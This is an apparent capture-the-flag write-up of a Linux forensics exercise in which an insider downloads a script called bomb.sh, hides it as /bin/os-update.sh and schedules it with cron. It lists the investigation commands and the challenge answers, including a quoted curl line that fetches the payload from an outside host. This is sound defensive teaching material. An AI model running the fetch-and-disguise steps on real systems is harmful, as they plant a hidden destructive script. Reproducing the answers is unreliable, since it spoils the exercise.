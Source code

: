 # 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)

> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```

> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```

> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```

> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```

> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```

> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
crontab -l
```

> **Answer:** `08:00 AM`

---



